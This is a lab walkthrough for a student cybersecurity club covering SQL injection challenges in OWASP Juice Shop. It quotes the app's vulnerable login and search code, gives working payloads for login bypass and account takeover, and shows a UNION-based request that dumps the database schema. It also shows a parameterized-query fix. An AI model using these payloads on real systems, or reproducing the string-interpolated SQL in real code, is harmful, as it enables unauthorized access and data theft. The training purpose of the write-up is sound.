





Title: OWASP Juice Shop Injection Walkthrough
Preview: A walkthrough for some of the Injection problems in OWASP's Juice Shop
Date: 2023-10-10
Tags: nkcyber, cybersecurity

This writeup is to help [NKCyber](https://www.nku.edu/academics/informatics/beyond/student-organizations/nkcyber.html) Club Members walk through the steps for the first few solutions to the SQL Injection section of [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/). Similar articles include [instructions for administering OWASP’s Juice Shop](https://zack.fyi/blog/juice-shop.html), the [Sensitive Data Exposure solutions](https://zack.fyi/blog/juice-shop-data-exposure.html), and the [XSS solutions](https://zack.fyi/blog/juice-shop-answers.html).


# Solutions

## Login Admin

Let's take a look at the login page:



Looking at the Network tab in our developer tools, I wonder what is being sent to the server when we input our email and password.


Cool. So, how are the email and password handled in the server?

Let's take a look at the code snippet for this challenge (*slightly* modified from the original):

<details>
<summary>View full code</summary>

```ts
// this is the real code the server is running
module.exports = function login() {
  function afterLogin(
    user: { data: User; bid: number },
    res: Response,
    next: NextFunction
  ) {
    verifyPostLoginChallenges(user); // vuln-code-snippet hide-line
    BasketModel.findOrCreate({ where: { UserId: user.data.id } })
      .then(([basket]: [BasketModel, boolean]) => {
        const token = security.authorize(user);
        user.bid = basket.id; // keep track of original basket
        security.authenticatedUsers.put(token, user);
        res.json({
          authentication: { token, bid: basket.id, umail: user.data.email },
        });
      })
      .catch((error: Error) => {
        next(error);
      });
  }

  return (req: Request, res: Response, next: NextFunction) => {
    models.sequelize
      .query(
        // TODO: using string interpolation with SQL can't be *too* bad for security, right?
        `SELECT * FROM Users WHERE email = '${
          req.body.email || ""
        }' AND password = '${security.hash(
          req.body.password || ""
        )}' AND deletedAt IS NULL`,
        { model: UserModel, plain: true }
      )
      .then((authenticatedUser: { data: User }) => {
        const user = utils.queryResultToJson(authenticatedUser);
        if (user.data?.id && user.data.totpSecret !== "") {
          res.status(401).json({
            status: "totp_token_required",
            data: {
              tmpToken: security.authorize({
                userId: user.data.id,
                type: "password_valid_needs_second_factor_token",
              }),
            },
          });
        } else if (user.data?.id) {
          afterLogin(user, res, next);
        } else {
          res.status(401).send(res.__("Invalid email or password."));
        }
      })
      .catch((error: Error) => {
        next(error);
      });
  };
};

```
</details>

This piece stands out to me:

```ts
models.sequelize
      .query(
        `SELECT * FROM Users WHERE email = '${
          req.body.email || ""
        }' AND password = '${security.hash(
          req.body.password || ""
        )}' AND deletedAt IS NULL`,
        { model: UserModel, plain: true }
      )
```

We're using string interpolation with a raw SQL query. That means anything that we enter has the potential to become part of the SQL query.

When we entered `email` and `password`, this is the query the database received (where the password hash is some secure hash):

`SELECT * FROM Users WHERE email = 'email' AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL`

Unfortunately, no users are found with that email and password. However, it'd be great if there was a way to manipulate this query to find a user for us to log in with.

If we change were to execute a query like

```sql
SELECT * FROM Users WHERE email = 'email' OR 1
```

then, we'd find all the users in the table, because `1` would evaluate to `TRUE`.

However, we have to do something about all the text at the end of the line. So, we can comment it out with `--`.

```sql
SELECT * FROM Users WHERE email = '' OR 1 -- AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL
```

So, if we were to enter `' OR 1 --` into the login box, then it will find all the users in the database, and the first one will be the admin user.

We should see the admin user account now, as well as the flag:



To resolve this vulnerability, the user must not be able to directly manipulate the query sent to the database.

In general, the way to address this is to escape all user inputs, so that they can only be processed as data, and never as commands.

```ts
// change this:
models.sequelize
      .query(
        `SELECT * FROM Users WHERE email = '${
          req.body.email || ""
        }' AND password = '${security.hash(
          req.body.password || ""
        )}' AND deletedAt IS NULL`,
        { model: UserModel, plain: true }
      )
// to something like this:
models.sequelize
      .query(
        "SELECT * FROM Users WHERE email = :email AND password = :hash AND deletedAt IS NULL",
        {
          replacements: { // automatically escape user input
            email: req.body.email || "",
            hash: security.hash(req.body.password || "")
          },
          model: UserModel, plain: true
        }
      )
```

## Login Bender

> Log in with Bender's user account. (Difficulty Level: 3)

Login Admin worked because the admin was the first user in the database. Now we have to adjust our strategy to work with the user Bender (email: `bender@juice-sh.op `)

Let's look at the query we used last time.

```sql
SELECT * FROM Users WHERE email = '' OR 1 -- AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL
```

Is there anything here that we can change to make sure it finds the user with the email `bender@juice-sh.op`.

Let's try something like:

```sql
SELECT * FROM Users WHERE email = 'bender@juice-sh.op' -- AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL
```

meaning we need to input `bender@juice-sh.op' --` into the login box.

Then, we get the flag! Success!

## Login Jim

> Log in with Jim's user account. (Difficulty Level: 3)

Let's try the same thing with the email `jim@juice-sh.op` instead:

```sql
SELECT * FROM Users WHERE email = 'jim@juice-sh.op' -- AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL
```

Where we need to enter: `jim@juice-sh.op' --` in the login box. The password doesn't matter.

Yup, it's that easy.

## Admin Section

> Access the administration section of the store. (Difficulty Level: 2)

After using `' OR 1 --` to login as the administrator, you can head to `/administration` to get your flag.

## Five-Star Feedback

> Get rid of all 5-star customer feedback. (Difficulty Level: 2)

From the `/administration` page, delete the one 5 star rating to get your flag.

## Database Schema

> Exfiltrate the entire DB schema definition via SQL Injection. (Difficulty Level: 3)
>
> This injection uses the search bar.

### Theory

Let's take a look at the provided code snippet:

<details>
<summary>View full code</summary>

```ts
module.exports = function searchProducts() {
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === "undefined" ? "" : req.query.q ?? "";
    criteria = criteria.length <= 200 ? criteria : criteria.substring(0, 200);
    models.sequelize
      .query(
        // TODO: is there any problem with using string interpolation with SQL statements?
        `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`
      )
      .then(([products]: any) => {
        const dataString = JSON.stringify(products);
        for (let i = 0; i < products.length; i++) {
          products[i].name = req.__(products[i].name);
          products[i].description = req.__(products[i].description);
        }
        res.json(utils.queryResultToJson(products));
      })
      .catch((error: ErrorWithParent) => {
        next(error.parent);
      });
  };
};
```
</details>

I'm specifically looking at the line that uses string interpolation for a SQL query:

```ts
models.sequelize
      .query(
        // TODO: is there any problem with using string interpolation with SQL statements?
        `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`
      )
```

Or rather:

```sql
SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name
```

So, we need to enter something that is going to give us the database schema from this query.

Given the special situation of being two parenthesis deep, we know we're going to have to add `'))` to the start of our query.

Then, we're going to need to append more data to the end of the query, so that we get back the data we're looking for.

How do we append data to the end of a query?

> In [SQL](https://en.wikipedia.org/wiki/SQL) the **`UNION`** clause combines the results of two SQL queries into a single [table](https://en.wikipedia.org/wiki/Table_(database)) of all matching [rows](https://en.wikipedia.org/wiki/Row_(database)).
>
> &mdash; <cite><a href="https://en.wikipedia.org/wiki/Set_operations_(SQL)#UNION_operator">Wikipedia</a></cite>

So, we're going to need get use something like `')) UNION SELECT something FROM somewhere` to make our query work.

According to the sqlite docs:

> The schema table can always be referenced using the name "**sqlite_schema**", especially if qualifed by the schema name like "main.sqlite_schema" or "temp.sqlite_schema". But for historical compatibility, some alternative names are also recognized, including:
>
> &mdash; <cite><a href="https://www.sqlite.org/schematab.html">SQLite Docs</a></cite>

So, it's going to be something like `')) UNION SELECT something FROM sqlite_schema`.

We know `sql` will be the name of the column with the schema. But, in order to get the rest of the column names, we can just guess with their positions.

So, we can try:

```sql
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql FROM sqlite_schema -- attempt 1
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql,2 FROM sqlite_schema -- attempt 2
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql,2,3 FROM sqlite_schema -- attempt 3
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql,2,3,4 FROM sqlite_schema -- attempt 4
-- et cetera...
```

So, let's put it into action.

### Execution

So, first, let's open up Burp Suite to see the requests we're sending to the server.

We can go under `Proxy` and open up a browser to `localhost:3000` to see our Juice Shop:

Here are a bunch of the requests that fire off when we first open the page:



One of them looks like what we're looking for: `/rest/products/search?q=`

Let's send that one to the Repeater.



Let's try and inject our first query:

```sql
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT 1 FROM sqlite_schema -- attempt 1
```

To inject it, we're going to need to to change the request to query with `')) UNION SELECT 1 FROM sqlite_schema --`. Also, remember that url parameters are separated by `+`, giving us:

```http
GET /rest/products/search?q='))+UNION+SELECT+1+FROM+sqlite_schema+--
```


This is the error we want to see.

Then, we can simply increase the number of columns we're querying until we find the correct one:


Eventually, we'll find the answer with

```http
GET /rest/products/search?q='))+UNION+SELECT+sql,2,3,4,5,6,7,8,9+FROM+sqlite_schema+--
```


And there we go!

```json
{
  "id": 1,
  "name": 2,
  "description": 3,
  "price": 4,
  "deluxePrice": 5,
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
}
```

That's our schema for *this* database, leaked via SQL injection.

We can see more data from the `sql` table at the end of the response:



This is where we see the schema for every table in the database, and what triggers the flag.
